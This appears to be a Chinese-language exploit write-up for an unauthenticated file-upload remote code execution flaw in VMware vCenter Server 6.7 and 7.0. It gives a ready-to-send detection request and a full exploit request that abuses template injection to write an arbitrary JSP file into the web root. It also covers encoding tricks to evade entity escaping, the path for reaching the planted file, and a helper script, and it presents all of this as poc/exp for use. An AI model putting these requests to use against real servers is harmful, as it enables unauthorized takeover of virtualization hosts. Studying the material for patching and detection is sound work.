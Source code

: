 # 漏洞简述

能够网络访问vCenter Server 上的 443 端口的攻击者可以通过构造上传请求，上传恶意文件，获取服务器权限，在 vCenter Server 上远程执行代码。该漏洞无需经过身份验证即可远程利用，攻击复杂度低，且无需用户交互。

# 影响范围

VMware vCenter Server 7.0

VMware vCenter Server 6.7

# 漏洞复现

漏洞检测POST包：

```java
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=1231231&_i=456456 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
X-Deployment-Secret: test
Content-Type: application/json
Content-Length: 252

{ "manifestSpec":{},"objectType": "a2","collectionTriggerDataNeeded":  "True","deploymentDataNeeded":"True","resultNeeded": "True","signalCollectionCompleted":"True","localManifestPath": "a7",
"localPayloadPath": "a8","localObfuscationMapPath": "a9" }
```

返回包状态码为201，证明存在漏洞；

```java
HTTP/1.1 201 
Content-Length: 0
Date: Thu, 21 Oct 2021 06:30:07 GMT
Server: Apache
```

注：

- URL中的_c和_i，最好是随机生成，因若多次请求同一个站，这两个参数内容若与之前一样，无论网站是否存在漏洞，返回包状态码均固定为409；
- header头中的X-Deployment-Secret必须要有，Content-Type可以没有，但最好带着；

- data数据中的True，手工测试的时候，要用双引号引起来在；从脚本到手工复现，这个地方被坑了一会



漏洞poc/exp的POST包：

```java
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=1231231&_i=456456 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Content-Type: application/json
X-Deployment-Secret: test
Content-Length: 3590



{"contextData": "a3", "manifestContent": "<manifest recommendedPageSize=\"500\">\r\n       <request>\r\n          <query name=\"vir:VCenter\">\r\n             <constraint>\r\n                <targetType>ServiceInstance</targetType>\r\n             </constraint>\r\n             <propertySpec>\r\n                <propertyNames>content.about.instanceUuid</propertyNames>\r\n                <propertyNames>content.about.osType</propertyNames>\r\n                <propertyNames>content.about.build</propertyNames>\r\n                <propertyNames>content.about.version</propertyNames>\r\n             </propertySpec>\r\n          </query>\r\n       </request>\r\n       <cdfMapping>\r\n          <indepedentResultsMapping>\r\n             <resultSetMappings>\r\n                <entry>\r\n                   <key>vir:VCenter</key>\r\n                   <value>\r\n                      <value xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xsi:type=\"resultSetMapping\">\r\n                         <resourceItemToJsonLdMapping>\r\n                            <forType>ServiceInstance</forType>\r\n                         <mappingCode><![CDATA[    \r\n                            #set($appender = $GLOBAL-logger.logger.parent.getAppender(\"LOGFILE\"))##\r\n                            #set($orig_log = $appender.getFile())##\r\n                            #set($logger = $GLOBAL-logger.logger.parent)##     \r\n                            $appender.setFile(\"/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/test.jsp\")##     \r\n                            $appender.activateOptions()##  \r\n                            $logger.warn(\"\u005c\u0075\u0030\u0030\u0033\u0063\u0025\u0040\u0020\u0070\u0061\u0067\u0065\u0020\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0054\u0079\u0070\u0065\u003d\u005c\u0075\u0030\u0030\u0032\u0032\u0074\u0065\u0078\u0074\u002f\u0068\u0074\u006d\u006c\u003b\u0063\u0068\u0061\u0072\u0073\u0065\u0074\u003d\u0055\u0054\u0046\u002d\u0038\u005c\u0075\u0030\u0030\u0032\u0032\u0020\u006c\u0061\u006e\u0067\u0075\u0061\u0067\u0065\u003d\u005c\u0075\u0030\u0030\u0032\u0032\u006a\u0061\u0076\u0061\u005c\u0075\u0030\u0030\u0032\u0032\u0020\u0025\u005c\u0075\u0030\u0030\u0033\u0065\u000d\u000a\u005c\u0075\u0030\u0030\u0033\u0063\u0025\u0020\u006f\u0075\u0074\u002e\u0070\u0072\u0069\u006e\u0074\u0028\u005c\u0075\u0030\u0030\u0032\u0032\u0074\u0068\u0069\u0073\u0020\u0069\u0073\u0020\u0061\u0020\u0066\u0072\u0069\u0065\u006e\u0064\u006c\u0079\u0020\u0074\u0065\u0073\u0074\u002c\u0020\u0050\u006c\u0065\u0061\u0073\u0065\u0020\u0063\u0068\u0065\u0063\u006b\u0020\u0061\u006e\u0064\u0020\u0072\u0065\u0070\u0061\u0069\u0072\u0020\u0075\u0070\u006c\u006f\u0061\u0064\u0020\u0076\u0075\u006c\u006e\u0065\u0072\u0061\u0062\u0069\u006c\u0069\u0074\u0069\u0065\u0073\u002e\u005c\u0075\u0030\u0030\u0032\u0032\u0029\u003b\u0025\u005c\u0075\u0030\u0030\u0033\u0065\")##   \r\n                            $appender.setFile($orig_log)##     \r\n                            $appender.activateOptions()##]]>\r\n                         </mappingCode>\r\n                         </resourceItemToJsonLdMapping>\r\n                      </value>\r\n                   </value>\r\n                </entry>\r\n             </resultSetMappings>\r\n          </indepedentResultsMapping>\r\n       </cdfMapping>\r\n       <requestSchedules>\r\n          <schedule interval=\"1h\">\r\n             <queries>\r\n                <query>vir:VCenter</query>\r\n             </queries>\r\n          </schedule>\r\n       </requestSchedules>\r\n    </manifest>", "objectId": "a2"}
```

返回包状态码为200，并且返回如下内容证明上传成功；

```java
HTTP/1.1 200 
Content-Type: application/json;charset=ISO-8859-1
Content-Length: 120
Date: Thu, 21 Oct 2021 06:56:40 GMT
Server: Apache

{"@type":"collection_completed","collection_completed_timestamp":1634799400166,"@id":"2555d5f7f87941498c4b482b9e3e40a4"}
```

要访问的上传文件地址为:（ip、端口、文件名自行替换）

```java
https://ip:port/idm/..;/test.jsp
```

注：

- 此POST包要在上一步的检测POST包之后使用，并且URL中的_c和_i值，至少要是历史中的上一步请求过的（个人理解这两个参数是一个简单的验证），所以这里最好是随机生成，并且分别赋值给这两步中的两个参数，保证每次都是随机不重复，并且还是一样的；
- X-Deployment-Secret与Content-Type与上一步中一样；

- 作为文件上传，data数据中大部分内容不用变，只变动$appender.setFile和$logger.warn的内容，前者是更改路径的文件名，（上传后要访问的文件），后者是具体的poc/exp内容；
- 仔细看应该也能看出来，这部分最长的一段json的值，在"前边加了\，因为"冲突了。其中的poc/exp部分做了Unicode编码，并且<、>、"是做了两次Unicode编码的（或者不嫌传输内容过长的话，直接把全部的poc/exp的内容两次Unicode编码也可）。不做两次Unicode编码的话，上传上去的<、>、"会被实体化，导致无法解析；

- 亲测站长上的Unicode编码不好使，即使两次编码，传上去的文件依然无法解析。

附字符串转Unicode编码的脚本（二次及以上编码的话，编码后的内容再次当作字符串编码时，每个\要替换为\\）：

```java
string = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<% out.print("this is a friendly test, Please check and repair upload vulnerabilities.");%>"""

string_unicode = ""
for i in string:
    asc_chr = ord(i)
    print(i)
    aa = "\\u{:04x}".format(asc_chr)
    string_unicode = string_unicode + aa

print(string_unicode)
```

顺手记录一下上传后情景：

![](1.png)



# poc/exp：

根据需求，自行注释切换poc还是exp，不过在输出上更严的做了poc的判断，没做exp是否成功的判断，建议先使用poc验证，再尝试exp，完事手工验证一下是否被拦截。

与手工验证利用不一样的地方，poc、exp部分的内容，只需要做一次Unicode编码即可。